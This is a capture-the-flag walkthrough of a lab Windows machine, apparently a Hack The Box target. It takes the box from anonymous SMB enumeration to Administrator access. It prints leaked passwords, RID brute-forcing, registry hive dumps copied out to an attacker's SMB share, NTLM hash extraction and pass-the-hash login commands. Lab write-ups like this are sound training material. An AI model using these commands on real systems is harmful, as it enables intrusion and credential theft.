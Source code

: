 
```
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
--------------------------------------------------------------------
cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
--------------------------------------------------------------------
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
----------------------------------------------
user.txt: 1d12de2c4162688e2ee9ba080c707d96
-----------------------------------------------------
reg save hklm\system c:\Temp\system


copy C:\Temp\sam \\10.10.16.53\share\sam
copy C:\Temp\system \\10.10.16.53\share\system

evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```


## **Initial Access**
1. **Enumerate SMB Shares**:
   - Used `smbclient` to list accessible shares:
     ```bash
     smbclient -L \\\\10.10.11.35 -U "anonymous"
     ```
   - Found the `HR` share and accessed it:
     ```bash
     smbclient \\\\10.10.11.35\\HR -U "anonymous"
     ```

2. **Found Credentials**:
   - Discovered a file containing credentials:
     ```
     Cicada$M6Corpb*@Lp#nZp!8
     ```

3. **Enumerate Users**:
   - Used `nxc` to enumerate users via RID brute-forcing:
     ```bash
     nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
     ```
   - Identified users like `michael.wrightson`, `david.orelious`, and `emily.oscars`.

4. **Authenticate as `michael.wrightson`**:
   - Used the found credentials to authenticate:
     ```bash
     nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
     ```

5. **Explore SMB Shares**:
   - Found additional shares and accessed the `dev` share:
     ```bash
     smbclient \\\\10.10.11.35\\dev -U 'michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8'
     ```

6. **Found New Credentials**:
   - Discovered credentials for `emily.oscars`:
     ```
     emily.oscars:Q!3@Lp#M6b*7t*Vt
     ```

7. **Authenticate as `emily.oscars`**:
   - Used `evil-winrm` to authenticate:
     ```bash
     evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
     ```


## **Privilege Escalation**
1. **Check Privileges**:
   - Ran `whoami /priv` and found `SeBackupPrivilege` and `SeRestorePrivilege` enabled.

2. **Dump SAM and SYSTEM Hives**:
   - Created a `Temp` folder and dumped the hives:
     ```powershell
     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system
     ```

3. **Transfer Files Using SMB Server**:
   - Set up an SMB server on the attacking machine:
     ```bash
     sudo impacket-smbserver share $(pwd) -smb2support
     ```
   - Copied the files to the SMB share from the target machine:
     ```powershell
     copy C:\Temp\sam \\<Your_IP>\share\sam
     copy C:\Temp\system \\<Your_IP>\share\system
     ```

4. **Extract NTLM Hashes**:
   - Used `pypykatz` to extract the hashes:
     ```bash
     pypykatz registry --sam sam --system system
     ```
   - Found the NTLM hash for the `Administrator`:
     ```
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
     ```

5. **Authenticate as `Administrator`**:
   - Used `evil-winrm` with the NTLM hash:
     ```bash
     evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
     ```

6. **Retrieve the Root Flag**:
   - Navigated to the `Administrator` desktop and read the `root.txt` file:
     ```powershell
     cd C:\Users\Administrator\Desktop
     type root.txt
     ```

